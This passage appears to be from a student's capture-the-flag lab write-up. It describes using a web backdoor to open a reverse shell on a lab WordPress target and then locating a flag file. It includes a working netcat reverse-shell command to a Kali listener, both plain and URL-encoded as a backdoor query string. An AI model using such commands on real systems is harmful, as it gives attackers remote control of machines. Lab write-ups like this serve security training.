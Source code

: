 
In the browser, used the backdoor to run: 

 - ``nc <Kali IP> 4444 -e /bin/bash. For example, your query string will look like cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash.``
    
   ![listenerbackdoor](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/listenerbackdoor.png "listener")     
    
   ![listener](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/listener1.png "listener")   

Using the shell  opened on Target 2, found a flag in the WordPress uploads directory /var/www.
    
Command:
   - `find /var/www -type f -iname 'flag*' `
    
![flag3](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/flag3command.png "flag3")     

Opened the flag in the browser window.
   - `http://192.168.1.115/wordpress/wp-content/uploads/2018/11/flag3.png`
   